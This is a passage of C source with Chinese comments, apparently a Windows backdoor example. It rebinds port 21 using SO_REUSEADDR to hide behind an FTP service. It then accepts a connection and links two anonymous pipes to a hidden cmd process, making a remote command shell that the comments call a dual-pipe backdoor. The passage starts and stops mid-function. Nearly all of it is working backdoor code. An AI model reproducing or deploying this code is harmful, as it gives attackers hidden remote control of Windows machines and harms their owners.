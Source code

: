 ```
    else
    {
        printf("can't find host name!\n");
        return -1;
    }
    //创建服务端套接字
    SOCKET ss; 
    if((ss = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)) == SOCKET_ERROR) 
    { 
        printf("error!socket failed!\n"); 
        return -1; 
    } 
    //设置套接字选项，SO_REUSEADDR 选项就是可以实现端口重绑定的 
    //但如果指定了 SO_EXCLUSIVEADDRUSE，就不会绑定成功
    BOOL val = TRUE;
    if(setsockopt(ss, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val)) != 0) 
    { 
        printf("error!setsockopt failed!\n"); 
        return -1; 
    } 
    //重新绑定,这里重新绑定 21 端口
    SOCKADDR_IN saddr;
    saddr.sin_family = AF_INET;
    saddr.sin_addr.s_addr = inet_addr(pszIp);
    saddr.sin_port = htons(21); 
    if(bind(ss, (SOCKADDR *)&saddr, sizeof(saddr)) == SOCKET_ERROR) 
    { 
        ret = GetLastError(); 
        printf("error!bind failed!\n"); 
        return -1; 
    } 
    listen(ss, 2); 
    //等待连接
    SOCKET clientFD;
    SOCKADDR_IN caddr;
    int nCaddrSzie; 
    nCaddrSzie = sizeof(caddr);
    clientFD = accept(ss, (struct sockaddr *)&caddr,&nCaddrSzie); 
    //连接之后，就和双管道后门完全一样了
    char Buff[1024];
    SECURITY_ATTRIBUTES pipeattr1, pipeattr2;
    HANDLE hReadPipe1,hWritePipe1,hReadPipe2,hWritePipe2;
    //建立匿名管道 1
    pipeattr1.nLength = 12; 
    pipeattr1.lpSecurityDescriptor = 0;
    pipeattr1.bInheritHandle = true;
    CreatePipe(&hReadPipe1,&hWritePipe1,&pipeattr1,0);
    //建立匿名管道 2
    pipeattr2.nLength = 12; 
    pipeattr2.lpSecurityDescriptor = 0;
    pipeattr2.bInheritHandle = true;
    CreatePipe(&hReadPipe2,&hWritePipe2,&pipeattr2,0);
    STARTUPINFO si;
    ZeroMemory(&si,sizeof(si));
    si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
    si.wShowWindow = SW_HIDE;
    si.hStdInput = hReadPipe2;
    si.hStdOutput = si.hStdError = hWritePipe1;
    char cmdLine[] = "cmd";
    PROCESS_INFORMATION ProcessInformation;
    //建立进程 
    ret = CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
    /*
```